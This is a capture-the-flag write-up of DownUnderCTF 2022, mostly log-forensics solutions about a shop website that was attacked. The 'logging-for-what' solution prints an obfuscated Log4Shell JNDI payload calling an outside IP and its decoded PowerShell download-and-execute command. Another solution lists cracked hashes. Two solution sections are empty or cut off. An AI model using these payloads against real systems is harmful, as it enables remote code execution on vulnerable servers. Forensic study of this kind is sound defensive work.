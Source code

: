 ```yaml
---
layout: post
title: DownUnderCTF 2022
---
```


- [https://ctftime.org/event/1625](https://ctftime.org/event/1625)
- Sep 23 to Sep 25
- Played with wackers
- Ranking: 392/1407 with 750 points

# My Solves/Writeups

## Pwn

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| pwn/babyp(y)wn | beginner | 50 | [jump](#pwnbabypywn) |

## Rev

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| rev/source-provided | beginner | 50 | [jump](#revsource-provided) |

## DFIR

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| dfir/Shop-Knock-Knock-Knock | easy | 50 | [jump](#dfirshop-knock-knock-knock) |
| dfir/Shop-Logging-for-what? | easy | 50 | [jump](#dfirshop-logging-for-what) |
| dfir/Shop-I'm-just-looking! | easy | 50 | [jump](#dfirshop-im-just-looking) |
| dfir/Shop-Oi!-Get-out-of-there! | medium | 50 | [jump](#dfirshop-oi-get-out-of-there) |

## Writeups
### pwn/babypywn

Python is memory safe, right?

Author: joseph#8210

Attachments: [babypywn.py](https://play.duc.tf/files/75063ab9b30ed274dd69906496ce0c15/babypywn.py?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjozN30.YzHRZQ.fB3_7LN6wR9a1LOd2JRyUidbaC4)

### Solution

Downloading the python file and looking at it, I recognized this as a simple 

### rev/source-provided

In this reversing challenge, source is provided.

Author: joseph#8210

Attachments: [chall](https://play.duc.tf/files/77264a4412dde0c22c878269e1fc9c11/chall?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo1N30.YzHR2Q.ocJkP7Re57zZU4nVaGuD10gK4ec)
[chall.S](https://play.duc.tf/files/2c136d630abb9d5d25109c2b6424cc5e/chall.S?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo1OH0.YzHSag.bHrtRmikcYkKQA7n4ZRreyj3UT8)

### Solution



### dfir/shop-knock-knock-knock

Looks like there's been a bruteforce/password spray attempt against the website!

What's the contact email for the ISP of the attacker's IP?

Flag format: Email address, case insensitive

Author: Cake#4096

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

```Although this had the most solves, it was the weidest/ hardest one for me.```

Looking at the file, we see that there are many different payloads sent to the web server that are of form jndi:smth// 

Searching up on google for jndi it returns results of the log4shell attack that happened last year

```The ip can also be found from looking at the password change attempts```

We know that these attacks are hacker attacks, so looking at the ip associated with the attack payload we can find the ISP of the attacker ip by running whois on the ip.

After several results of emails we get the answer

Flag: ```abuse@telstra.net```

### dfir/shop-logging-for-what

We implemented a basic IPS to help protect our site from new attacks.

Somehow, a newer more sophisticated version of a regularly observed attack was successfully executed against the website.

What is the name of the script that was run?

Flag format: Name of the script that was run, case sensitive.

Author: Conletz#5420

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

Knowing from the previous challenge that the attacks were log4shell attacks in the form of jndi:smth, we are probably looking for a version of the payload that can bypass a filter.

Scrolling through the file, we come across a payload that is also in the useragent section but looks obfuscated to bypass the filter.

`${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://41.108.181.141:5552/Basic/Command/Base64/cG93ZXJzaGVsbC5le
GUgLWV4ZWMgYnlwYXNzIC1DICJJRVggKE5ldy1PYmplY3QgTmV0LldlYkNsaWVudCkuRG93bmxvYWRTdHJpbmcoJ2h0dHBzOi8vZG93bnVuZGVyY3RmLmNvbS9wVENOcDVwNkxQMGQ3cUE3N3l2YjRTSGY0MCcpOyI=}`

The end of this payload looks like base64 so decrypt the base64

```powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://downunderctf.com/pTCNp5p6LP0d7qA77yvb4SHf40');"```

This part felt kinda guessy to me but the answer for the script run was just the part after the link

```Flag: pTCNp5p6LP0d7qA77yvb4SHf40```

### dfir/shop-im-just-looking

We've seen some vulnerability scanning activity against us!

What was the name of the tool used?

Flag format: Name of the tool used, case insensitive

Author: Cake#4096

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

```This challenge felt even more guessy to me as I found the answer by trying to do the password challenge instead.```

Searching through the json file during the password challenge of this file, I was looking for some wordlist that I could maybe use to crack the hashes.

Grepping txt from the json file, I got the result of nuclei.txt.

I searched up nuclei.txt on google thinking I could download this wordlist and use it to crack the hashes but when I searched it up, I instead find a vulnerability scanner on github called nuclei. [nuclei](https://github.com/projectdiscovery/nuclei)

This challenge description was asking for a vulnerability scanner, so nuclei seemed fit and it ended up being the flag.

```Flag: nuclei```

### dfir/shop-oi-get-out-of-there

Someone was able to successfully break into the admin account!

Do you know what the old password was?

Flag format: The password, case insensitive

Author: Cake#4096

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

After searching through the files on the previous challenges, I realized that there were these weird links pointing to /changepassword and had base64 text after the ref query parameter.

Using grep to search for "ref" and grabbing all the base64 text and decoding the base64 returns some password-like text.

```
b506fb0cabb60e9f1132daa72df4d567:6d7c5b3e796d833b3fdd40f4ce57facd
2ac9cb7dc02b3c0083eb70898e549b63:6d7c5b3e796d833b3fdd40f4ce57facd
3dc919de186d1a8ee62fff92d80839f7:6d7c5b3e796d833b3fdd40f4ce57facd
7a581ac4d8cb3bfc596fce9afb115fd2:6d7c5b3e796d833b3fdd40f4ce57facd
```

At first I thought this was a LM:NTLM hash because of the ldap references in the json file but trying to crack using hashcat/ john didn't work.

After, I tried plugging the hashes into hashes.com (cracked website for cracking passwords), and it cracked all of the passwords.

```
2ac9cb7dc02b3c0083eb70898e549b63:Password1
3dc919de186d1a8ee62fff92d80839f7:ozzieozzieozzie
7a581ac4d8cb3bfc596fce9afb115fd2:downunder2
b506fb0cabb60e9f1132daa72df4d567:crackstation
```

Submitting each of the passwords, one of them worked.

```Flag: ozzieozzieozzie```
